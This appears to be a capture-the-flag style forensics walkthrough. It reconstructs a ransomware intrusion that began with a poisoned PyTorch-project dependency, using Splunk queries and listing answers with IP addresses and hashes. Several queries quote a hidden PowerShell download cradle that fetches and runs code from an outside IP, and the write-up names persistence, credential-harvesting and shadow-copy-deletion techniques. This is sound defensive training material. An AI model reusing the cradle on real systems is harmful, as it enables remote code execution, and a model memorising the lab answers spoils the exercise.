

# Poisoned PyTorch Lab

## **Scenario**

On 2 February 2026 (UTC), a developer at unucorb executed a model training script from Visual Studio Code on PC01 as part of an internal AI/ML project. Unbeknownst to the user, a trusted third-party Python dependency within the project had been tampered with, resulting in silent code execution and the establishment of remote access on the workstation. Your objective is to analyze the provided SIEM telemetry and host-based artifacts to reconstruct the end-to-end intrusion timeline, determine how initial access was achieved, track attacker activity across the domain, and identify pre-encryption behavior and ransomware impact used to maximize damage.

## **Initial Access**

### Q1: Process execution telemetry on PC01 shows a developer running a Python training script from Visual Studio Code shortly before malicious activity begins; what is the name of the AI/ML project directory from which this execution originated?

Splunk query:

```jsx
index=* host="PC01" EventCode=1 "*\\*.py" Image="*\\python.exe"
| table _time ParentImage ParentCommandLine Image CommandLine
```



Answer: torch-inference-stack

### Q2: During analysis of the suspicious process chain, investigators identified a Visual Studio Code Python language server component running immediately before the hidden PowerShell download cradle; what was the component name and version shown in the execution chain?

Splunk query:

```jsx
index=* host="PC01" EventCode=1 "*\\*.py"
| table _time ParentImage ParentCommandLine CommandLine
```


Answer: jedilsp 3.12.9

## **Execution**

### Q3: To confirm the origin of the intrusion, execution logs were reviewed to identify the script responsible for initiating the malicious chain of events; what is the full file path of that script on PC01?

Splunk query:

```jsx
index=* host="PC01" EventCode=1 "*\\*.py"
| table _time ParentImage ParentCommandLine CommandLine
```


Answer: C:\Users\michelvic\torch-inference-stack\training\[train.py](http://train.py/)

### Q4: Immediately after the training script was executed, a hidden PowerShell process launched a remote download cradle; at what exact time (UTC) did this initial malicious PowerShell command execute on PC01?

Splunk query: 

```jsx
index=* host="PC01" EventCode=1 "*\\*.py"
| table _time CommandLine
```


Answer: 2026-02-02 01:17:01

### Q5: Network telemetry recorded outbound communication from PC01 following the PowerShell download cradle; what remote IP address was contacted to retrieve the first-stage payload?


Answer: 54.93.78.216

## **Discovery**

### Q6: Following initial access, the attacker performed reconnaissance to understand domain trust relationships from PC01; which native Windows binary was used to enumerate domain trusts?

Splunk query:

```jsx
index=* host="PC01" EventCode=1 "michelvic" ParentCommandLine="powershell.exe -NoProfile -WindowStyle Hidden -Command \"IEX ((new-object net.webclient).downloadstring('[http://54.93.78.216:80/a](http://54.93.78.216/a)'))\""
| table _time ParentImage ParentCommandLine Image CommandLine
```


Answer: nltest

## **Persistence**

### Q7: To maintain persistence on the compromised workstation, a secondary payload was deployed for persistence; what is the filename of the persistent DLL dropped on PC01?

Splunk query:

```jsx
index=* host="PC01" EventCode=1 "michelvic" ParentCommandLine="powershell.exe -NoProfile -WindowStyle Hidden -Command \"IEX ((new-object net.webclient).downloadstring('[http://54.93.78.216:80/a](http://54.93.78.216/a)'))\""
| table _time ParentImage ParentCommandLine Image CommandLine
```


Answer: updlate.dll

### Q8: Analysis of file creation activity shows that the persistent payload was stored in a user-writable directory commonly abused by malware; what is the full file path where this DLL was placed?

Answer: C:\Users\michelvic\AppData\Roaming\updlate.dll

### Q9: What is the SHA-256 hash of the persistent DLL on PC01?

Splunk query:

```jsx
index=* host="PC01" "updlate.dll" "Hashes" Image="C:\\Windows\\System32\\rundll32.exe”
```


Answer: 0829B7E5ABE2BAA6D7D001D4B69221D273D377C5E359E7A9C44F4D7A8EB214A0

### Q10: Review of the registry modification reveals the use of a benign-looking value name intended to blend in with legitimate software; what registry value name was used to persist the payload?


Answer: Updater

## **Privilege Escalation**

### Q11: Before successfully escalating privileges, the attacker attempted to abuse an installed Windows feature that ultimately failed; which Windows feature was targeted during this privilege escalation attempt?

```jsx
index=* host="PC01" EventCode=1 "updlate.dll"
| table _time ParentImage ParentCommandLine Image CommandLine
```


Answer: WSL

## **Credential Access**

### Q12: After the failed privilege escalation attempt, filesystem searches revealed a deployment artifact containing exposed credentials; what is the name of the configuration file that contained cleartext administrator credentials?

Splunk query:

```jsx
index=* host="PC01" EventCode=1 "updlate.dll"
| table _time ParentImage ParentCommandLine Image CommandLine
```


Splunk query:

```jsx
index=* host="PC01" "unattend.xml" EventCode=4103
```


Answer: Unattend.xml

### Q13: Using the recovered credentials, lateral movement activity was observed from PC01 to the domain controller; which type of connection was used to establish this initial connection?


Answer: RDP

### Q14: To maintain long-term access within the domain, the attacker created a rogue account designed to closely resemble a legitimate account; what was the name of this unauthorized domain account?

Splunk query:

```jsx
index=* EventCode=4720

```


Answer: welsam

### Q15: Shortly after account creation, privilege escalation activity was observed involving group membership changes; which privileged domain group was the rogue account added to?

```jsx
index=* welsam subject="A member was added to a security-enabled global group”
```


Answer: Domain Admins

## **Pre-Encryption Operations and Ransomware Deployment**

### Q16: Prior to ransomware deployment, access to file infrastructure was established to maximize impact; at what time (UTC) was a successful RDP session initiated to FILE-SERVER-01?

```jsx
index=* EventCode=4624 LogonType=10 host="FILE-SERVER-01”
```


Answer: 2026-02-02 04:17:07

### Q17: What HTTP URI path was requested for the second-stage download on FILE-SERVER-01?

Splunk query:

```jsx
index=* EventCode=1 host="FILE-SERVER-01" CommandLine ="*http*"
```


Answer: /b

### Q18: As part of pre-encryption operations, system recovery mechanisms were deliberately targeted; which built-in Windows utility was used to delete Volume Shadow Copies?

```jsx
index=* EventCode=1 ("del" OR "delete" OR "rm" OR "remove")
| table _time ParentImage ParentCommandLine Image CommandLine host
```


Answer: vssadmin.exe

### Q19: During analysis of ransomware execution activity, process lineage revealed a process responsible for encryption "ransomware binary"; what is the full file path of this process?

Splunk query:

```jsx
index=* EventCode=11 source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" "README.txt"
```


Answer: C:\Users\domain.admin\Documents\system recovery.exe

### Q20: File creation and execution telemetry confirmed the presence of a ransomware executable deployed during the attack; what is the SHA-256 hash of this ransomware binary?

Splunk query:

```jsx
index=* "system recovery.exe" Hashes
```


Answer: EAA0E773EB593B0046452F420B6DB8A47178C09E6DB0FA68F6A2D42C3F48E3BC

### Q21: Based on the recovered SHA-256 hash, which ransomware family does this sample belong to?


Answer: Lynx
